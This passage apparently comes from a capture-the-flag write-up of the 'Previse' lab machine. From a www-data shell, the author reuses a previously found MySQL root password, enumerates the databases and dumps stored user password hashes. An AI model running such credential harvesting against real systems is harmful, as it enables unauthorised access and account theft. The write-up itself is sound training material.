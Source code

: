 ```console
```

```console
www-data@previse:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Using the previously discovered MySQL password, I'm able to get the hash for the user.

```console
www-data@previse:/tmp$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 38
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use previse;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)

mysql> select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | haxhax   | $1$🧂llol$2PFPI1udHJoPtHxC9N45w0 | 2024-05-14 19:34:50 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)
```
